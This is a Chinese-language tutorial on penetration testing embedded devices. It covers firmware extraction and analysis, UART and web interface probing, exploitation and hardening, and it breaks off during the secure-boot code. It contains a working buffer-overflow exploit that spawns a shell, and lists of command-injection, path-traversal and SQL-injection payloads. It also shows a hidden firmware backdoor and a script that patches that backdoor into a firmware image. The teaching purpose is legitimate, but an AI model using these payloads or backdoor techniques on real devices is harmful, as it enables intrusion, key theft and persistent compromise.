

# 渗透测试与漏洞分析


## 学习目标

完成本教程后,你将能够:

- 理解嵌入式系统渗透测试的方法论和流程
- 掌握常用的渗透测试工具和技术
- 能够识别和分析嵌入式设备的常见漏洞
- 掌握固件提取和逆向分析的基本方法
- 了解硬件调试接口的安全风险和利用方法
- 能够进行基本的漏洞利用和安全加固
- 掌握渗透测试报告的编写方法


## 前置要求

### 知识要求
- 掌握C语言和汇编语言基础
- 了解嵌入式系统架构和工作原理
- 熟悉Linux命令行操作
- 理解网络协议和通信原理
- 了解常见的安全漏洞类型
- 掌握基本的调试技术

### 技能要求
- 能够使用GDB等调试工具
- 熟悉二进制文件分析
- 了解逆向工程基础
- 掌握基本的脚本编程(Python/Bash)

### 环境要求
- 测试设备:STM32或ESP32开发板
- 调试工具:JTAG/SWD调试器
- 分析工具:IDA Pro/Ghidra、Binwalk、Wireshark
- 操作系统:Linux(推荐Kali Linux)
- 硬件工具:逻辑分析仪、示波器(可选)


## 准备工作

### 1. 硬件准备

**设备清单**:
- 目标开发板(STM32F407或ESP32) × 1
- JTAG/SWD调试器(J-Link或ST-Link) × 1
- USB转串口模块 × 1
- 逻辑分析仪(可选) × 1
- 杜邦线若干
- 万用表 × 1

**硬件连接**:
```
调试器连接(SWD):
ST-Link    →    STM32F407
SWDIO      →    PA13
SWCLK      →    PA14
GND        →    GND
3.3V       →    3.3V (可选,用于供电)

串口连接:
USB-TTL    →    STM32F407
TX         →    PA10 (USART1_RX)
RX         →    PA9  (USART1_TX)
GND        →    GND
```

### 2. 软件准备

**安装渗透测试工具**:

```bash
# 更新系统(Kali Linux)
sudo apt update && sudo apt upgrade -y

# 安装固件分析工具
sudo apt install -y binwalk firmware-mod-kit

# 安装逆向工程工具
sudo apt install -y ghidra radare2

# 安装网络分析工具
sudo apt install -y wireshark nmap

# 安装Python工具
pip3 install pwntools angr

# 安装OpenOCD(开源调试工具)
sudo apt install -y openocd

# 安装串口工具
sudo apt install -y minicom screen
```

**配置OpenOCD**:

创建配置文件 `stm32f4.cfg`:
```tcl
# 调试器配置
source [find interface/stlink.cfg]

# 传输协议
transport select hla_swd

# 目标芯片配置
source [find target/stm32f4x.cfg]

# 复位配置
reset_config srst_only
```

### 3. 测试环境搭建

**创建测试目录**:
```bash
mkdir -p ~/pentest/firmware
mkdir -p ~/pentest/tools
mkdir -p ~/pentest/reports
cd ~/pentest
```

**准备测试固件**:
```bash
# 下载或编译测试固件
# 这里使用一个包含已知漏洞的示例固件
wget https://example.com/vulnerable_firmware.bin -O firmware/test.bin
```


## 步骤说明

### 步骤1: 渗透测试方法论

嵌入式系统渗透测试遵循系统化的方法论,确保全面评估安全性。

#### 1.1 渗透测试流程



**各阶段详解**:

1. **信息收集(Reconnaissance)**
   - 识别目标设备型号和芯片
   - 收集固件版本信息
   - 识别通信接口和协议
   - 分析硬件设计和电路

2. **威胁建模(Threat Modeling)**
   - 识别攻击面
   - 分析潜在威胁
   - 评估风险等级
   - 确定测试优先级

3. **漏洞识别(Vulnerability Identification)**
   - 固件静态分析
   - 接口安全测试
   - 协议安全分析
   - 配置安全检查

4. **漏洞验证(Vulnerability Validation)**
   - 确认漏洞存在性
   - 评估漏洞影响
   - 测试利用条件
   - 记录漏洞细节

5. **漏洞利用(Exploitation)**
   - 开发利用代码
   - 执行攻击测试
   - 获取系统访问
   - 验证攻击效果

6. **权限提升(Privilege Escalation)**
   - 提升访问权限
   - 绕过安全机制
   - 获取敏感数据
   - 控制系统功能

7. **持久化(Persistence)**
   - 建立后门
   - 保持访问权限
   - 隐藏攻击痕迹

8. **报告编写(Reporting)**
   - 记录发现的漏洞
   - 评估安全风险
   - 提供修复建议
   - 编写详细报告

#### 1.2 攻击面分析

嵌入式设备的主要攻击面:

```c
// 攻击面分类

// 1. 硬件接口
typedef enum {
    ATTACK_SURFACE_JTAG,      // JTAG/SWD调试接口
    ATTACK_SURFACE_UART,      // 串口接口
    ATTACK_SURFACE_SPI,       // SPI接口
    ATTACK_SURFACE_I2C,       // I2C接口
    ATTACK_SURFACE_USB,       // USB接口
    ATTACK_SURFACE_GPIO       // GPIO引脚
} hardware_attack_surface_t;

// 2. 网络接口
typedef enum {
    ATTACK_SURFACE_WIFI,      // WiFi无线网络
    ATTACK_SURFACE_ETHERNET,  // 以太网
    ATTACK_SURFACE_BLUETOOTH, // 蓝牙
    ATTACK_SURFACE_ZIGBEE,    // ZigBee
    ATTACK_SURFACE_LORA       // LoRa
} network_attack_surface_t;

// 3. 软件接口
typedef enum {
    ATTACK_SURFACE_WEB,       // Web管理界面
    ATTACK_SURFACE_API,       // REST API
    ATTACK_SURFACE_CLI,       // 命令行接口
    ATTACK_SURFACE_FIRMWARE,  // 固件更新
    ATTACK_SURFACE_BOOTLOADER // 引导加载程序
} software_attack_surface_t;

// 4. 物理访问
typedef enum {
    ATTACK_SURFACE_FLASH,     // Flash芯片读取
    ATTACK_SURFACE_EEPROM,    // EEPROM数据提取
    ATTACK_SURFACE_RAM,       // RAM数据分析
    ATTACK_SURFACE_POWER,     // 电源分析攻击
    ATTACK_SURFACE_GLITCH     // 故障注入攻击
} physical_attack_surface_t;
```

**攻击面评估矩阵**:

| 攻击面 | 访问难度 | 利用难度 | 影响程度 | 风险等级 |
|--------|----------|----------|----------|----------|
| JTAG调试接口 | 低 | 低 | 高 | 高 |
| 串口接口 | 低 | 中 | 中 | 中 |
| Web管理界面 | 低 | 中 | 高 | 高 |
| 固件更新 | 中 | 中 | 高 | 高 |
| WiFi网络 | 低 | 高 | 高 | 中 |
| Flash芯片 | 高 | 低 | 高 | 中 |

#### 1.3 常见漏洞类型

嵌入式系统常见的安全漏洞:

```c
// 常见漏洞分类

// 1. 内存安全漏洞
typedef enum {
    VULN_BUFFER_OVERFLOW,     // 缓冲区溢出
    VULN_STACK_OVERFLOW,      // 栈溢出
    VULN_HEAP_OVERFLOW,       // 堆溢出
    VULN_USE_AFTER_FREE,      // 释放后使用
    VULN_NULL_POINTER,        // 空指针解引用
    VULN_FORMAT_STRING        // 格式化字符串
} memory_vuln_t;

// 2. 认证授权漏洞
typedef enum {
    VULN_WEAK_PASSWORD,       // 弱密码
    VULN_HARDCODED_CREDS,     // 硬编码凭证
    VULN_AUTH_BYPASS,         // 认证绕过
    VULN_PRIVILEGE_ESC,       // 权限提升
    VULN_SESSION_FIXATION     // 会话固定
} auth_vuln_t;

// 3. 加密安全漏洞
typedef enum {
    VULN_WEAK_CRYPTO,         // 弱加密算法
    VULN_KEY_MANAGEMENT,      // 密钥管理不当
    VULN_RANDOM_NUMBER,       // 随机数生成缺陷
    VULN_CERT_VALIDATION      // 证书验证不当
} crypto_vuln_t;

// 4. 注入漏洞
typedef enum {
    VULN_COMMAND_INJECTION,   // 命令注入
    VULN_SQL_INJECTION,       // SQL注入
    VULN_CODE_INJECTION,      // 代码注入
    VULN_PATH_TRAVERSAL       // 路径遍历
} injection_vuln_t;

// 5. 配置安全漏洞
typedef enum {
    VULN_DEBUG_ENABLED,       // 调试功能未关闭
    VULN_DEFAULT_CONFIG,      // 默认配置
    VULN_INSECURE_PROTOCOL,   // 不安全协议
    VULN_MISSING_ENCRYPTION   // 缺少加密
} config_vuln_t;
```


### 步骤2: 固件提取与分析

固件分析是渗透测试的关键步骤,可以发现大量安全问题。

#### 2.1 固件提取方法

**方法1: 通过调试接口提取**

使用OpenOCD通过JTAG/SWD读取Flash:

```bash
# 启动OpenOCD
openocd -f stm32f4.cfg

# 在另一个终端连接
telnet localhost 4444

# OpenOCD命令
> halt
> flash read_bank 0 firmware_dump.bin 0 0x100000
> exit
```

使用GDB提取固件:

```bash
# 启动OpenOCD
openocd -f stm32f4.cfg &

# 使用GDB连接
arm-none-eabi-gdb

# GDB命令
(gdb) target extended-remote localhost:3333
(gdb) monitor reset halt
(gdb) dump binary memory firmware.bin 0x08000000 0x08100000
(gdb) quit
```

**方法2: 通过串口提取**

如果设备提供了固件下载功能:

```python
#!/usr/bin/env python3
# firmware_download.py - 通过串口下载固件

import serial
import time

def download_firmware(port, baudrate, output_file):
    """
    通过串口下载固件
    
    Args:
        port: 串口设备路径
        baudrate: 波特率
        output_file: 输出文件名
    """
    # 打开串口
    ser = serial.Serial(port, baudrate, timeout=1)
    
    print(f"[*] 连接到 {port}, 波特率 {baudrate}")
    
    # 发送固件下载命令
    ser.write(b"download_firmware\n")
    time.sleep(0.5)
    
    # 接收固件数据
    firmware_data = b""
    print("[*] 正在接收固件数据...")
    
    while True:
        chunk = ser.read(4096)
        if not chunk:
            break
        firmware_data += chunk
        print(f"[*] 已接收: {len(firmware_data)} 字节")
    
    # 保存固件
    with open(output_file, 'wb') as f:
        f.write(firmware_data)
    
    print(f"[+] 固件已保存到: {output_file}")
    print(f"[+] 固件大小: {len(firmware_data)} 字节")
    
    ser.close()

if __name__ == "__main__":
    download_firmware("/dev/ttyUSB0", 115200, "firmware_dump.bin")
```

**方法3: 直接读取Flash芯片**

使用编程器读取外部Flash芯片:

```bash
# 使用flashrom读取SPI Flash
flashrom -p ch341a_spi -r firmware_flash.bin

# 使用minipro读取
minipro -p "W25Q128" -r firmware_flash.bin
```

#### 2.2 固件分析

**使用Binwalk分析固件结构**:

```bash
# 扫描固件
binwalk firmware.bin

# 提取文件系统
binwalk -e firmware.bin

# 查看熵值(检测加密)
binwalk -E firmware.bin

# 查看签名
binwalk -A firmware.bin
```

示例输出:
```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, ARM
16384         0x4000          LZMA compressed data
131072        0x20000         Squashfs filesystem
524288        0x80000         JFFS2 filesystem
```

**使用Ghidra逆向分析**:

```bash
# 启动Ghidra
ghidra

# 导入固件文件
# File -> Import File -> 选择firmware.bin
# 选择处理器: ARM Cortex
# 选择语言: ARM:LE:32:Cortex

# 分析固件
# Analysis -> Auto Analyze
```

**查找敏感信息**:

```bash
# 搜索字符串
strings firmware.bin | grep -i password
strings firmware.bin | grep -i "api_key"
strings firmware.bin | grep -i "secret"

# 搜索URL
strings firmware.bin | grep -E "https?://"

# 搜索IP地址
strings firmware.bin | grep -E "[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}"

# 搜索私钥
strings firmware.bin | grep -A 5 "BEGIN.*PRIVATE KEY"
```

**分析加密密钥**:

```python
#!/usr/bin/env python3
# find_crypto_keys.py - 查找固件中的加密密钥

import re
import sys

def find_crypto_keys(firmware_file):
    """查找固件中的加密密钥"""
    
    with open(firmware_file, 'rb') as f:
        data = f.read()
    
    # 查找AES密钥(128/192/256位)
    print("[*] 搜索AES密钥...")
    # 查找连续的16/24/32字节非零数据
    for size in [16, 24, 32]:
        pattern = b'[^\x00]{' + str(size).encode() + b'}'
        matches = re.finditer(pattern, data)
        for match in matches:
            key = match.group()
            # 检查熵值
            if calculate_entropy(key) > 7.0:
                print(f"[+] 可能的AES-{size*8}密钥: {key.hex()}")
    
    # 查找RSA私钥
    print("\n[*] 搜索RSA私钥...")
    rsa_pattern = b'-----BEGIN.*PRIVATE KEY-----'
    if rsa_pattern in data:
        print("[+] 发现RSA私钥!")
        idx = data.find(rsa_pattern)
        end_idx = data.find(b'-----END', idx)
        if end_idx != -1:
            key = data[idx:end_idx+30]
            print(key.decode('utf-8', errors='ignore'))

def calculate_entropy(data):
    """计算数据熵值"""
    import math
    from collections import Counter
    
    if not data:
        return 0
    
    counter = Counter(data)
    length = len(data)
    entropy = 0
    
    for count in counter.values():
        p = count / length
        entropy -= p * math.log2(p)
    
    return entropy

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"用法: {sys.argv[0]} <firmware.bin>")
        sys.exit(1)
    
    find_crypto_keys(sys.argv[1])
```


### 步骤3: 硬件接口安全测试

硬件接口是嵌入式设备的重要攻击面,需要重点测试。

#### 3.1 JTAG/SWD调试接口测试

**识别调试接口**:

```bash
# 使用JTAGulator自动识别JTAG引脚
# 连接JTAGulator到目标板的可疑引脚

# 扫描JTAG
> s  # 开始扫描
> 设置电压: 3.3V
> 设置引脚范围: 0-15
> 等待扫描完成...

# 扫描结果示例:
# TDI: Pin 5
# TDO: Pin 6
# TCK: Pin 7
# TMS: Pin 8
```

**测试调试接口保护**:

```bash
# 使用OpenOCD连接
openocd -f interface/stlink.cfg -f target/stm32f4x.cfg

# 测试读保护
> halt
> flash read_bank 0 test.bin 0 1024

# 如果读保护启用,会看到错误:
# Error: Target not halted
# Error: Flash read protection enabled
```

**绕过读保护(仅用于授权测试)**:

```python
#!/usr/bin/env python3
# bypass_rdp.py - 尝试绕过读保护(教育目的)

import time
from pyocd.core.helpers import ConnectHelper
from pyocd.flash.file_programmer import FileProgrammer

def test_rdp_bypass():
    """测试读保护绕过方法"""
    
    print("[*] 连接到目标设备...")
    
    try:
        # 连接到目标
        with ConnectHelper.session_with_chosen_probe() as session:
            board = session.board
            target = board.target
            
            print(f"[+] 已连接: {target.part_number}")
            
            # 检查读保护状态
            print("[*] 检查读保护状态...")
            # 读取选项字节
            rdp_level = target.read32(0x1FFFC000)
            
            if rdp_level == 0xAA:
                print("[+] 读保护级别: 0 (未保护)")
            elif rdp_level == 0xCC:
                print("[!] 读保护级别: 2 (永久保护)")
                print("[!] 无法绕过级别2保护")
                return
            else:
                print("[!] 读保护级别: 1 (保护)")
                
                # 方法1: 尝试故障注入
                print("[*] 尝试方法1: 电压故障注入...")
                # 需要硬件支持
                
                # 方法2: 尝试时序攻击
                print("[*] 尝试方法2: 时序攻击...")
                # 需要精确时序控制
                
                print("[!] 自动绕过失败,需要专业设备")
    
    except Exception as e:
        print(f"[-] 错误: {e}")

if __name__ == "__main__":
    test_rdp_bypass()
```

#### 3.2 串口接口测试

**识别串口参数**:

```python
#!/usr/bin/env python3
# uart_scanner.py - 扫描串口参数

import serial
import time

def scan_uart_baudrate(port):
    """扫描串口波特率"""
    
    # 常见波特率
    baudrates = [
        9600, 19200, 38400, 57600, 115200,
        230400, 460800, 921600
    ]
    
    print(f"[*] 扫描串口: {port}")
    
    for baudrate in baudrates:
        try:
            ser = serial.Serial(port, baudrate, timeout=0.5)
            
            # 发送测试数据
            ser.write(b"\r\n")
            time.sleep(0.1)
            
            # 读取响应
            response = ser.read(100)
            
            if response:
                print(f"[+] 波特率 {baudrate}: 有响应")
                print(f"    响应: {response}")
                
                # 尝试常见命令
                test_commands = [b"help\r\n", b"?\r\n", b"version\r\n"]
                for cmd in test_commands:
                    ser.write(cmd)
                    time.sleep(0.2)
                    resp = ser.read(1000)
                    if resp:
                        print(f"    命令 {cmd.strip()}: {resp[:100]}")
            
            ser.close()
            
        except Exception as e:
            pass

if __name__ == "__main__":
    scan_uart_baudrate("/dev/ttyUSB0")
```

**测试串口命令注入**:

```python
#!/usr/bin/env python3
# uart_injection.py - 串口命令注入测试

import serial
import time

def test_command_injection(port, baudrate):
    """测试命令注入漏洞"""
    
    ser = serial.Serial(port, baudrate, timeout=1)
    
    print("[*] 测试命令注入...")
    
    # 测试用例
    test_cases = [
        # 基本命令
        b"help\r\n",
        b"version\r\n",
        b"config\r\n",
        
        # 命令注入尝试
        b"test; ls\r\n",
        b"test && cat /etc/passwd\r\n",
        b"test | id\r\n",
        b"test `whoami`\r\n",
        b"test $(uname -a)\r\n",
        
        # 缓冲区溢出尝试
        b"A" * 100 + b"\r\n",
        b"A" * 500 + b"\r\n",
        b"A" * 1000 + b"\r\n",
        
        # 格式化字符串尝试
        b"%s%s%s%s\r\n",
        b"%x%x%x%x\r\n",
    ]
    
    for test in test_cases:
        print(f"\n[*] 测试: {test[:50]}")
        
        ser.write(test)
        time.sleep(0.5)
        
        response = ser.read(2000)
        if response:
            print(f"[+] 响应: {response[:200]}")
            
            # 检查是否有异常响应
            if b"error" in response.lower():
                print("[!] 检测到错误响应")
            if b"segmentation fault" in response.lower():
                print("[!] 检测到段错误!")
            if b"root" in response or b"uid=" in response:
                print("[!] 可能存在命令注入漏洞!")
    
    ser.close()

if __name__ == "__main__":
    test_command_injection("/dev/ttyUSB0", 115200)
```

#### 3.3 网络接口测试

**端口扫描**:

```bash
# 使用nmap扫描目标设备
nmap -sS -sV -p- 192.168.1.100

# 扫描常见嵌入式端口
nmap -p 21,22,23,80,443,8080,8443,9000 192.168.1.100

# 检测操作系统
nmap -O 192.168.1.100

# 漏洞扫描
nmap --script vuln 192.168.1.100
```

**Web接口测试**:

```python
#!/usr/bin/env python3
# web_scanner.py - Web接口安全扫描

import requests
from urllib.parse import urljoin

def scan_web_interface(base_url):
    """扫描Web管理界面"""
    
    print(f"[*] 扫描Web接口: {base_url}")
    
    # 1. 测试默认凭证
    print("\n[*] 测试默认凭证...")
    default_creds = [
        ("admin", "admin"),
        ("admin", "password"),
        ("admin", "12345"),
        ("root", "root"),
        ("admin", ""),
    ]
    
    for username, password in default_creds:
        try:
            response = requests.post(
                urljoin(base_url, "/login"),
                data={"username": username, "password": password},
                timeout=5
            )
            
            if "success" in response.text.lower() or response.status_code == 200:
                print(f"[+] 默认凭证有效: {username}:{password}")
        except:
            pass
    
    # 2. 测试目录遍历
    print("\n[*] 测试目录遍历...")
    path_traversal_payloads = [
        "../../../etc/passwd",
        "..\\..\\..\\windows\\system.ini",
        "....//....//....//etc/passwd",
    ]
    
    for payload in path_traversal_payloads:
        try:
            response = requests.get(
                urljoin(base_url, f"/download?file={payload}"),
                timeout=5
            )
            
            if "root:" in response.text or "[extensions]" in response.text:
                print(f"[!] 目录遍历漏洞: {payload}")
        except:
            pass
    
    # 3. 测试命令注入
    print("\n[*] 测试命令注入...")
    cmd_injection_payloads = [
        "; ls",
        "| id",
        "& whoami",
        "`uname -a`",
    ]
    
    for payload in cmd_injection_payloads:
        try:
            response = requests.get(
                urljoin(base_url, f"/ping?host=127.0.0.1{payload}"),
                timeout=5
            )
            
            if "uid=" in response.text or "Linux" in response.text:
                print(f"[!] 命令注入漏洞: {payload}")
        except:
            pass
    
    # 4. 测试SQL注入
    print("\n[*] 测试SQL注入...")
    sql_injection_payloads = [
        "' OR '1'='1",
        "admin'--",
        "' UNION SELECT NULL--",
    ]
    
    for payload in sql_injection_payloads:
        try:
            response = requests.post(
                urljoin(base_url, "/login"),
                data={"username": payload, "password": "test"},
                timeout=5
            )
            
            if "success" in response.text.lower():
                print(f"[!] SQL注入漏洞: {payload}")
        except:
            pass

if __name__ == "__main__":
    scan_web_interface("http://192.168.1.100")
```


### 步骤4: 漏洞利用实践

发现漏洞后,需要验证其可利用性。

#### 4.1 缓冲区溢出利用

**示例:栈溢出漏洞**

存在漏洞的代码:
```c
// vulnerable.c - 存在栈溢出漏洞的代码

#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[64];  // 64字节缓冲区
    
    // 危险:没有长度检查
    strcpy(buffer, input);
    
    printf("Input: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    
    vulnerable_function(argv[1]);
    
    return 0;
}
```

**利用脚本**:

```python
#!/usr/bin/env python3
# exploit_overflow.py - 缓冲区溢出利用

from pwn import *

def exploit_buffer_overflow():
    """利用缓冲区溢出漏洞"""
    
    # 连接到目标(假设通过串口)
    io = serial("/dev/ttyUSB0", baudrate=115200)
    
    # 1. 确定溢出偏移
    print("[*] 查找溢出偏移...")
    
    # 生成循环模式
    pattern = cyclic(200)
    io.sendline(pattern)
    
    # 等待崩溃
    time.sleep(1)
    
    # 读取崩溃信息(假设有调试输出)
    crash_info = io.recvuntil(b"PC:")
    pc_value = io.recvline()
    
    # 计算偏移
    offset = cyclic_find(pc_value)
    print(f"[+] 偏移: {offset}")
    
    # 2. 构造利用载荷
    print("[*] 构造利用载荷...")
    
    # Shellcode (ARM Thumb模式)
    # 执行system("/bin/sh")
    shellcode = asm(shellcraft.arm.linux.sh(), arch='arm')
    
    # 构造payload
    payload = b"A" * offset          # 填充到返回地址
    payload += p32(0x20001000)       # 返回地址(指向shellcode)
    payload += shellcode             # Shellcode
    
    # 3. 发送利用载荷
    print("[*] 发送利用载荷...")
    io.sendline(payload)
    
    # 4. 获取shell
    print("[+] 获取shell...")
    io.interactive()

if __name__ == "__main__":
    exploit_buffer_overflow()
```

#### 4.2 固件后门植入

**植入后门代码**:

```c
// backdoor.c - 后门代码示例

#include <stdio.h>
#include <string.h>

// 后门触发密码
#define BACKDOOR_PASSWORD "secret_backdoor_2024"

// 后门命令处理
void backdoor_handler(char *input) {
    if (strncmp(input, BACKDOOR_PASSWORD, strlen(BACKDOOR_PASSWORD)) == 0) {
        // 后门被激活
        printf("[BACKDOOR] Activated!\n");
        
        // 执行特权操作
        char *cmd = input + strlen(BACKDOOR_PASSWORD) + 1;
        
        if (strncmp(cmd, "dump_flash", 10) == 0) {
            // 转储Flash内容
            dump_flash_memory();
        }
        else if (strncmp(cmd, "get_key", 7) == 0) {
            // 泄露加密密钥
            leak_encryption_key();
        }
        else if (strncmp(cmd, "disable_auth", 12) == 0) {
            // 禁用认证
            disable_authentication();
        }
    }
}

// 在正常命令处理中隐藏后门
void process_command(char *input) {
    // 首先检查后门
    backdoor_handler(input);
    
    // 然后处理正常命令
    if (strcmp(input, "help") == 0) {
        print_help();
    }
    // ... 其他命令
}
```

**修改固件植入后门**:

```python
#!/usr/bin/env python3
# inject_backdoor.py - 固件后门注入

import struct

def inject_backdoor(firmware_file, output_file):
    """在固件中注入后门"""
    
    print(f"[*] 读取固件: {firmware_file}")
    
    with open(firmware_file, 'rb') as f:
        firmware = bytearray(f.read())
    
    # 1. 查找注入点(未使用的Flash区域)
    print("[*] 查找注入点...")
    
    # 查找连续的0xFF区域(未使用的Flash)
    injection_point = None
    for i in range(len(firmware) - 1024):
        if firmware[i:i+1024] == b'\xFF' * 1024:
            injection_point = i
            break
    
    if not injection_point:
        print("[-] 未找到合适的注入点")
        return
    
    print(f"[+] 注入点: 0x{injection_point:08X}")
    
    # 2. 准备后门代码(ARM Thumb机器码)
    backdoor_code = bytes([
        # 后门代码的机器码
        # 这里是示例,实际需要编译后门C代码
        0x00, 0xB5,  # push {lr}
        # ... 后门逻辑
        0x00, 0xBD,  # pop {pc}
    ])
    
    # 3. 注入后门代码
    print("[*] 注入后门代码...")
    firmware[injection_point:injection_point+len(backdoor_code)] = backdoor_code
    
    # 4. 修改跳转指令(Hook正常函数)
    print("[*] 修改跳转指令...")
    
    # 查找目标函数(例如命令处理函数)
    target_function = 0x08001234  # 示例地址
    
    # 计算跳转偏移
    offset = injection_point - target_function - 4
    
    # 构造跳转指令(B指令)
    branch_instr = 0xE000 | ((offset >> 1) & 0x7FF)
    
    # 写入跳转指令
    firmware[target_function:target_function+2] = struct.pack('<H', branch_instr)
    
    # 5. 保存修改后的固件
    print(f"[*] 保存修改后的固件: {output_file}")
    
    with open(output_file, 'wb') as f:
        f.write(firmware)
    
    print("[+] 后门注入完成!")
    print(f"[+] 后门地址: 0x{injection_point:08X}")

if __name__ == "__main__":
    inject_backdoor("original_firmware.bin", "backdoored_firmware.bin")
```


### 步骤5: 安全加固建议

发现漏洞后,需要提供修复建议。

#### 5.1 代码层面加固

**1. 输入验证**:

```c
// 安全的输入处理

// 不安全的代码
void unsafe_input(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // 危险!
}

// 安全的代码
void safe_input(const char *input) {
    char buffer[64];
    
    // 1. 检查输入长度
    if (strlen(input) >= sizeof(buffer)) {
        printf("Error: Input too long\n");
        return;
    }
    
    // 2. 使用安全函数
    strncpy(buffer, input, sizeof(buffer) - 1);
    buffer[sizeof(buffer) - 1] = '\0';
    
    // 3. 验证输入内容
    for (size_t i = 0; i < strlen(buffer); i++) {
        if (!isprint(buffer[i])) {
            printf("Error: Invalid character\n");
            return;
        }
    }
}
```

**2. 内存安全**:

```c
// 安全的内存管理

// 不安全的代码
void unsafe_memory() {
    char *ptr = malloc(100);
    // 忘记检查返回值
    strcpy(ptr, "data");
    free(ptr);
    // 忘记置NULL
    strcpy(ptr, "more data");  // 危险!
}

// 安全的代码
void safe_memory() {
    char *ptr = malloc(100);
    
    // 1. 检查分配是否成功
    if (ptr == NULL) {
        printf("Error: Memory allocation failed\n");
        return;
    }
    
    // 2. 安全使用内存
    strncpy(ptr, "data", 99);
    ptr[99] = '\0';
    
    // 3. 释放后置NULL
    free(ptr);
    ptr = NULL;
}
```

**3. 认证加固**:

```c
// 安全的认证实现

#include "mbedtls/sha256.h"
#include "mbedtls/platform_util.h"

// 不安全的密码验证
int unsafe_auth(const char *password) {
    return strcmp(password, "admin123") == 0;  // 硬编码密码!
}

// 安全的密码验证
int safe_auth(const char *password) {
    // 1. 使用哈希存储密码
    const unsigned char stored_hash[32] = {
        // SHA-256("admin123")的哈希值
        0x24, 0x0b, 0xe5, 0x18, 0xfa, 0xbd, 0x26, 0x97,
        // ... 完整的32字节哈希
    };
    
    // 2. 计算输入密码的哈希
    unsigned char input_hash[32];
    mbedtls_sha256_ret((const unsigned char *)password,
                       strlen(password),
                       input_hash, 0);
    
    // 3. 使用常量时间比较(防止时序攻击)
    int result = mbedtls_platform_memequal(stored_hash, input_hash, 32);
    
    // 4. 添加延迟(防止暴力破解)
    HAL_Delay(1000);  // 1秒延迟
    
    return result == 0;
}

// 更安全:使用加盐哈希
typedef struct {
    unsigned char salt[16];
    unsigned char hash[32];
} password_entry_t;

int secure_auth(const char *password, const password_entry_t *entry) {
    unsigned char input_hash[32];
    unsigned char salted_password[256];
    
    // 1. 组合密码和盐
    snprintf((char *)salted_password, sizeof(salted_password),
             "%s%s", password, entry->salt);
    
    // 2. 计算哈希
    mbedtls_sha256_ret(salted_password,
                       strlen((char *)salted_password),
                       input_hash, 0);
    
    // 3. 常量时间比较
    int result = mbedtls_platform_memequal(entry->hash, input_hash, 32);
    
    // 4. 清除敏感数据
    mbedtls_platform_zeroize(salted_password, sizeof(salted_password));
    mbedtls_platform_zeroize(input_hash, sizeof(input_hash));
    
    // 5. 添加延迟
    HAL_Delay(1000);
    
    return result == 0;
}
```

#### 5.2 硬件层面加固

**1. 禁用调试接口**:

```c
// 禁用JTAG/SWD调试接口

void disable_debug_interface(void) {
    // STM32: 禁用JTAG和SWD
    __HAL_AFIO_REMAP_SWJ_DISABLE();
    
    // 或者只禁用JTAG,保留SWD
    // __HAL_AFIO_REMAP_SWJ_NOJTAG();
    
    printf("Debug interface disabled\n");
}

// 在系统初始化时调用
void SystemInit(void) {
    // ... 其他初始化
    
    #ifdef PRODUCTION_BUILD
    disable_debug_interface();
    #endif
}
```

**2. 启用读保护**:

```c
// 启用Flash读保护

#include "stm32f4xx_hal.h"

void enable_read_protection(void) {
    FLASH_OBProgramInitTypeDef OBInit;
    
    // 解锁选项字节
    HAL_FLASH_Unlock();
    HAL_FLASH_OB_Unlock();
    
    // 读取当前选项字节
    HAL_FLASHEx_OBGetConfig(&OBInit);
    
    // 检查读保护级别
    if (OBInit.RDPLevel == OB_RDP_LEVEL_0) {
        printf("Enabling read protection...\n");
        
        // 设置读保护级别1
        OBInit.OptionType = OPTIONBYTE_RDP;
        OBInit.RDPLevel = OB_RDP_LEVEL_1;
        
        // 编程选项字节
        if (HAL_FLASHEx_OBProgram(&OBInit) != HAL_OK) {
            printf("Error: Failed to enable read protection\n");
        } else {
            printf("Read protection enabled\n");
            
            // 启动选项字节加载
            HAL_FLASH_OB_Launch();
        }
    }
    
    // 锁定选项字节
    HAL_FLASH_OB_Lock();
    HAL_FLASH_Lock();
}
```

**3. 安全启动**:

```c
// 实现安全启动验证

#include "mbedtls/sha256.h"
#include "mbedtls/rsa.h"

// 固件签名结构
typedef struct {
    uint32_t version;
    uint32_t size;
    unsigned char hash[32];      // SHA-256哈希
    unsigned char signature[256]; // RSA-2048签名
} firmware_signature_t;

// 验证固件签名
int verify_firmware_signature(const uint8_t *firmware,
                              uint32_t size,
                              const firmware_signature_t *sig) {
    int ret;
    unsigned char hash[32];
    mbedtls_rsa_context rsa;
    
    printf("Verifying firmware signature...\n");
    
    // 1. 计算固件哈希
    ret = mbedtls_sha256_ret(firmware, size, hash, 0);
    if (ret != 0) {
        printf("Error: Hash calculation failed\n");
        return -1;
    }
    
    // 2. 验证哈希值
    if (memcmp(hash, sig->hash, 32) != 0) {
        printf("Error: Hash mismatch\n");
        return -1;
    }
    
    // 3. 初始化RSA上下文
    mbedtls_rsa_init(&rsa, MBEDTLS_RSA_PKCS_V15, 0);
    
    // 4. 加载公钥(存储在安全区域)
    const unsigned char *public_key = get_public_key();
    ret = load_rsa_public_key(&rsa, public_key);
    if (ret != 0) {
        printf("Error: Failed to load public key\n");
        goto cleanup;
    }
    
    // 5. 验证签名
    ret = mbedtls_rsa_pkcs1_verify(&rsa,
                                   NULL, NULL,
                                   MBEDTLS_RSA_PUBLIC,
                                   MBEDTLS_MD_SHA256,
                                   32, hash,
                                   sig->signature);
    
    if (ret != 0) {
        printf("Error: Signature verification failed\n");
        goto cleanup;
    }
    
    printf("Firmware signature verified successfully\n");
    ret = 0;

cleanup:
    mbedtls_rsa_free(&rsa);
    return ret;
}

// 安全启动流程
void secure_boot(void) {
    const uint8_t *firmware = (uint8_t *)0x08010000;  // 应用程序地址
    const firmware_signature_t *sig = (firmware_signature_t *)0x08008000;
    
    printf("Starting secure boot...\n");
    
    // 1. 验证固件签名
